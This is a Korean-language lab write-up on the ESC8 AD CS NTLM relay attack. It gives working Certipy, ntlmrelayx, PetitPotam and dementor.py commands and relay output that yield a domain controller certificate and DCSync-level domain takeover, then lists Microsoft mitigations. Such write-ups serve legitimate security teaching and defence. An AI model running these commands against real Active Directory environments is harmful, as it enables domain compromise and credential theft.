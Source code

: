 # ESC8

### 개념&#x20;

ADCS 에는 Web Enrollment 라는 웹 서비스가 존재한다. 이 웹 서비스는 유저, 스크립트, 프로그램 등이 ADCS 서비스와 편리하게 통신하기 위해 웹 서버와 HTTP 엔드포인트 등을 제공한다. 액티브 디렉토리 안의 서비스 답게 이 웹 서버는 기본적으로 NTLM 인증을 통해 사용자 인증이 가능하다 - 라는 말은 곧 NTLM Relay 공격에 취약 하다는 말이 된다.&#x20;

ESC8 은 NTLM Relay 공격을 통해 피해자 유저/머신의 NTLM 인증 트래픽을 ADCS HTTP 엔드 포인트로 보낸 뒤, 피해자 유저/머신으로 인증서를 발급받아 사용자 인증 및 계정을 탈취하는 공격이다.&#x20;

### 전제 조건&#x20;

1. ADCS 서버에 Web Enrollment 가 설치되어 있다&#x20;
2. NTLM Relay 를 시작할 수 있는 피해자 유저/머신과 취약점이 존재한다 (강제 인증, LLMNR/NBT-NS 포이즈닝, MITM6, 등)&#x20;
3. Web Enrollment 웹 서버가 NTLM 인증을 허용한다 - 특별한 설정을 하지 않는 이상 기본적으로 허용한다.&#x20;



### 실습&#x20;

해당 실습에서는 강제 인증에 취약한 도메인 컨트롤러로부터 인증 트래픽을 받아 이를 CA 서버의 HTTP 엔드포인트에 릴레이하는 ESC8 공격을 실행한다. 이로서 공격자는 도메인 컨트롤러 머신 계정을 장악한. 도메인 컨트롤러 머신 계정은 DCSync 권한을 갖고 있기 때문에 도메인을 장악할 수 있게 된다.&#x20;

> 도메인 컨트롤러 -> 강제 인증 -> 공격자 -> 릴레이 -> ADCS HTTP 엔드포인트 == 도메인 컨트롤러의 인증서 획득. 인증서를 이용해 도메인 컨트롤러로 인증 후 DCSync&#x20;

#### 정보 수집&#x20;

1. 먼저 CA와 CA의 Web Enrollment 가 존재하는지 Certipy 로 알아본다. `Web Enrollment: Enabled` 라면 웹서버가 활성화 되어 있는 것이다.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

2\. 정확한 확인을 위해 GUI에서는 HTTP 엔드포인트를 브라우저로 방문하거나 curl 등을 이용한다. `401 Unauthorized` 에러 메시지가 나오면 제대로 HTTP 엔드포인트가 실행 중이라는 것이다.&#x20;

```
$ curl -k http://<CA-IP>/certsrv/certfnsh.asp

$ curl -k http://192.168.40.150/certsrv/certfnsh.asp                                              
[ ... ] 
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>401 - Unauthorized: Access is denied due to invalid credentials.</h2>
  <h3>You do not have permission to view this directory or page using the credentials that you supplied.</h3>
```

3\. CA 서버의 HTTP 엔드포인트로 릴레이 세팅 해놓는다. Certipy 나 NTLMRelayx 를 이용한다.&#x20;

<pre><code># Certipy 
<strong>certipy relay -ca &#x3C;ca-ip> 
</strong>
# ntlmrelayx 
python3 ntlmrelayx.py -t http://&#x3C;CA-IP or FDQN>/certsrv/certfnsh.asp -smb2support --adcs --template &#x3C;template>
</code></pre>

4\. 강제 인증, LLMNR/NBT-NS, MITM6 등을 이용해 도메인 컨트롤러를 공격해 NTLM Relay 공격을 실행한다.&#x20;

```
# Petitpotam - 무인증 
python3 Petitpotam.py <attacker-ip> <target-ip> 

# Petitpotam - 인증 
python3 Petitpotam.py -u <user> -p <pass> <attacker-ip> <target-ip> 

# Print Spooler (dementor.py) (https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) 
python3 dementor.py -u <user> -p <pass> -d <domain> <attacker-ip> <target-ip>

```

5\. Certipy 결과&#x20;

```
certipy relay -ca dc01.choi.local -template DomainController
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://dc01.choi.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'PCI\\DC1$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'dc1.pci.choi.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc1.pfx'
[*] Exiting...
```

(5-1. NTLMRelayx 결과)&#x20;

```
[*] Authenticating against http://192.168.40.150 as PCI/DC1$ SUCCEED                                          
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.40.160 controlled, but there are no more targets left!
[*] Generating CSR...                                  
[*] CSR generated!                                     
[*] Getting certificate...                             
[*] GOT CERTIFICATE! ID 22                             
[*] Base64 certificate of user DC1$:                   
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqG [ ..... ] 
```

6\. 인증서를 이용해 도메인 컨트롤러의 머신 계정을 획득한다.&#x20;

```
# Certipy
certipy auth -dc-ip <dc-IP> -pfx <filename>

# NTLMRelayx 
Base64 Certificate 을 저장한다. 
$ base64 -d <base64-pfx> > real.pfx 
$ certipy auth -dc-ip <dc-IP> -pfx real.pfx 
```



### 대응 방안&#x20;

> 다음의 대응 방안은 마이크로소프트사의 공식 문서를 기반으로 쓰여졌다. 더 자세한 사항은 레퍼런스 섹션의 MSDN을 참고한다.&#x20;

1. ADCS HTTP 엔드포인트에 Extended Protection Authentication (EPA) 을 `Required` 로 설정한다. \
   Server Manager > IIS Manager > DC/CAXX > Sites > Default Web Site > CertSrv > Authentication 더블클릭 > Windows Authentication 오른쪽 클릭 > Advanced Settings > Extended Protection: Required&#x20;

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

1-1. 그 이 SSL을 활성화 한다.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

2\. 극단적으로 CA 서버에 NTLM 인증을 비활성화 한다. 프로덕션 서버의 경우 하위 호환성에 문제가 갈 수 있기 때문에 충분한 테스트를 거친 뒤 NTLM 인증을 비활성화 한다.  \
&#x20;

### 레퍼런스&#x20;

{% embed url="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429" %}

